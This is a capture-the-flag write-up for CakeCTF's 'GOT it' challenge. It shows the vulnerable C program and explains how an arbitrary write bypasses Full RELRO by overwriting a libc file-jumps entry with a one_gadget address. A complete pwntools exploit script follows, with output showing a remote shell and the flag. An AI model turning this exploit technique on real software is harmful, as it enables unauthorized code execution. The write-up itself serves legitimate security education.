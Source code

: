 # GOT it

**Category**: misc \
**Points**: 165 points (32 solves) \
**Author**: ptr-yudai

Does "Full RELRO" mean it's really secure against GOT overwrite?

```
nc pwn.cakectf.com 9003
```

Attachments: `got_it.tar.gz`

## Overview

Source:

```c
#include <stdio.h>
#include <unistd.h>

void main() {
  char arg[10] = {0};
  unsigned long address = 0, value = 0;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  printf("<main> = %p\n", main);
  printf("<printf> = %p\n", printf);

  printf("address: ");
  scanf("%p", (void**)&address);
  printf("value: ");
  scanf("%p", (void**)&value);
  printf("data: ");
  scanf("%9s", (char*)&arg);
  *(unsigned long*)address = value;

  puts(arg);
  _exit(0);
}
```

- We're given a program and libc leak
- Then we can write 8 bytes to any address
- Then the program calls `puts(arg)`

```
$ checksec chall
[*] '/home/plushie/Programs/cake_ctf/got_it/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

As the challenge description says, we can't overwrite the GOT since the binary
has full RELRO. Instead, let's look for values in libc that we can overwrite.

To do this, I used gdb to step into `puts()` and ran `nextcall` until I found
an indirect call with a writable argument. Luckily I was able to find one
pretty quickly:

![i.png](i.png)

As you can see `R14` is purple, which means its readable and writeable. It's
actually in the libc BSS segment:
```
    0x7fc5b5e00000     0x7fc5b5e03000 rw-p     3000 1ea000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
```

Unfortunately we don't control the first argument, but that's OK - we can just use [one_gadget](https://github.com/david942j/one_gadget).
```
$ one_gadget libc-2.31.so
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

```

The first one almost worked, but it segfaulted since `R12` wasn't
null. I fixed by sending a null byte to `scanf("%9s", (char*)&arg)`

Solve script:

```python
import pwn

pwn.context.binary = elf = pwn.ELF("./chall")
libc = pwn.ELF("./libc-2.31.so")

if pwn.args.REMOTE:
    io = pwn.remote("pwn.cakectf.com", 9003)
else:
    io = pwn.process("./chall")

if pwn.args.GDB:
    pwn.gdb.attach(
        io,
        gdbscript="""
break *main+312
continue
""",
    )

leak = int(io.recvlineS().strip().split(" = ")[-1], 16)
elf.address = leak - elf.symbols.main
leak = int(io.recvlineS().strip().split(" = ")[-1], 16)
libc.address = leak - libc.symbols.printf

pwn.log.info(f"elf.address = {hex(elf.address)}")
pwn.log.info(f"libc.address = {hex(libc.address)}")

addr = libc.symbols._IO_file_jumps + 56
value = libc.address + 0xE6C7E

io.sendlineafter("address: ", hex(addr))
io.sendlineafter("value: ", hex(value))

# Must be null to satisfy register for one_gadget
io.sendlineafter("data: ", b"\x00")

io.interactive()
```

Output:
```
$ python3 solve.py REMOTE
[*] '/home/plushie/Programs/cake_ctf/got_it/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/plushie/Programs/cake_ctf/got_it/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.cakectf.com on port 9003: Done
[*] elf.address = 0x56493a073000
[*] libc.address = 0x7f1c5e7b0000
solve.py:37: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter("address: ", hex(addr))
/home/plushie/Programs/archive/pwntools/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
solve.py:38: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter("value: ", hex(value))
[*] Switching to interactive mode
$ ls
chall
flag-94a6afdf8e59954b19196caca9ab2e35.txt
$ cat flag-94a6afdf8e59954b19196caca9ab2e35.txt
CakeCTF{*ABS*+0x190717@IGOTIT}
```
